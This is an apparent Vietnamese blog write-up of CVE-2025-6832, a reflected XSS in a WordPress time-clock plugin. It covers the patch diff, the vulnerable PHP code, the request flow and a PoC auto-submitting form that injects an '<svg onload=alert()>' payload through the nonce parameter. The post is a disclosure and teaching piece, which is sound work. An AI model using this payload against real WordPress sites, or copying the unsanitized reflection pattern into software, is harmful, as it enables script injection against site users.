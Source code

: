 ```yaml
---
title: CVE-2025-6832 Analysis & POC
description: Security Vulnerability in WordPress All in One Time Clock Lite Plugin.
date: 2025-10-07 17:38:00 +0700
categories: [CVE Analyst]
tags: [analyst, core, xss]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

**Lỗ hổng Reflected Cross-Site Scripting (XSS)** trong plugin **All in One Time Clock Lite** cho WordPress.
Lỗ hổng xuất phát từ tham số **nonce** ở các phiên bản đến và bao gồm **2.0**, do **xử lý đầu vào không đầy đủ** và **không escape đầu ra**.
Kẻ tấn công (kể cả không xác thực) có thể chèn các đoạn script tùy ý vào trang; những script này sẽ được thực thi khi nạn nhân thực hiện hành động bị thao túng (ví dụ: bấm vào một liên kết).

* **CVE ID**: [CVE-2025-6832](https://www.cve.org/CVERecord?id=CVE-2025-6832)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 2.0
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress All in One Time Clock Lite Plugin](https://wordpress.org/plugins/aio-time-clock-lite/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **All in One Time Clock Lite**: **v2.0** (vulnerable) và **v2.0.1** (patched).
* **Diff tool** - **Meld** hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

Trong phiên bản **vulnerable**, tham số `nonce` được lấy trực tiếp từ `$_POST` mà **không qua bất kỳ sanitization nào**:

```php
$nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;
```

Trong phiên bản **patched**, tham số `nonce` được xử lý bằng [`sanitize_text_field()`](https://developer.wordpress.org/reference/functions/sanitize_text_field/) trước khi sử dụng, ngăn chặn việc chèn mã độc:

```php
$nonce = (isset($_POST["nonce"])) ? sanitize_text_field($_POST["nonce"]) : null;
```

👉 Bản vá bổ sung lớp lọc đầu vào cho biến `nonce`, đảm bảo dữ liệu nhận từ request sẽ được loại bỏ ký tự nguy hiểm trước khi xử lý tiếp.

{{< figure src="diff.png" caption="So sánh thay đổi mã giữa bản vulnerable và bản vá" >}}

### Vulnerable code

Lỗ hổng nằm trong hàm `aio_time_clock_lite_js()` thuộc class `AIO_Time_Clock_Lite_Actions` trong file `aio-time-clock-lite-actions.php`{: .filepath}

```php
public function aio_time_clock_lite_js()
{
    // other logic       
    $nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;

    if (wp_verify_nonce($nonce, 'time-clock-nonce')) {
        // other logic            
    } else {
        echo json_encode(
            [
                "response"     => "failed",
                "message"      => esc_attr_x("Not authorized to perform this action", 'aio-time-clock-lite'),
                "nonce"        => $nonce,
                "clock_action" => $clock_action,
            ]
        );
    }

    wp_reset_postdata();
    die();
}
```

{: file="aio-time-clock-lite-actions.php"}

Hàm `wp_verify_nonce()` so sánh giá trị `$nonce` gửi từ client với giá trị hợp lệ mà server đã sinh ra trước đó bằng hàm `wp_create_nonce()`.

```php
<input type="hidden" name="time-clock-nonce" id="time-clock-nonce" value="<?php echo wp_create_nonce("time-clock-nonce"); ?>">
```

{: file="aio-settings.php"}

Nếu `$nonce` không hợp lệ => nhảy sang nhánh `else` trả về **JSON** báo lỗi chứa `$nonce`.

Click `2 references` ta thấy hàm `public function aio_time_clock_lite_js()` được gọi làm callback cho các action hook:

{{< figure src="ref1.png" caption="Hàm aio_time_clock_lite_js() được gắn vào hai hook Ajax (authenticated & unauthenticated)" >}}

* `wp_ajax_aio_time_clock_lite_js`(authenticated).
* `wp_ajax_nopriv_aio_time_clock_lite_js`(unauthenticated). => Focus

### Sources & Sinks

* **Source**: Tham số `nonce` lấy trực tiếp từ `$_POST` (unauthenticated request).
* **Sink**: Giá trị `nonce` được phản chiếu lại trong `echo json_encode(...)`.

### Flow

1. Gửi POST request (unauthenticated) đến `/wp-admin/admin-ajax.php` với các **params**:

```
action=aio_time_clock_lite_js&nonce=nonce_value
```

2. Callback `aio_time_clock_lite_js()` được gọi
3. Kiểm tra giá trị `nonce` => **invalid**
4. Phản chiếu giá trị `nonce` vào body bằng `echo json_encode(...)`

## Exploit

### Proof of Concept (PoC)

* Tạo trang web chứa form submit:

```html
<form action="http://localhost/wp-admin/admin-ajax.php" method="post">
  <input type="hidden" name="action" value="aio_time_clock_lite_js">
  <input type="hidden" name="nonce" value="<svg onload=alert()>">
</form>
<script>document.forms[0].submit()</script>
```

* Gửi link đến trang web chứa form cho người dùng cho dặc quyền.
* Quan sát việc thực hiện **JavaScript** được tiêm.

{{< figure src="result.png" caption="Result — PoC execution screenshot" >}}

## Conclusion

Lỗ hổng **CVE-2025-6832** trong plugin **All in One Time Clock Lite <= 2.0** cho phép **unauthenticated attacker** khai thác Reflected XSS thông qua tham số `nonce`. Bản vá **2.0.1** đã thêm `sanitize_text_field()` để lọc input, ngăn chặn mã độc được phản chiếu trong JSON response.

**Key takeaways**:

* Luôn **sanitize** và **escape** dữ liệu trước khi trả về response.
* Endpoint mở cho **nopriv (unauthenticated)** cần được xem xét cẩn trọng.
* Reflected XSS thường xuất hiện khi giá trị input được phản chiếu trực tiếp trong output (JSON/HTML).
* **Update plugin** kịp thời là cách đơn giản nhất để giảm thiểu rủi ro.

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress All in One Time Clock Lite <= 2.0 — CVE-2025-6832](https://patchstack.com/database/wordpress/plugin/aio-time-clock-lite/vulnerability/wordpress-all-in-one-time-clock-lite-tracking-employee-time-has-never-been-easier-plugin-2-0-reflected-cross-site-scripting-vulnerability)
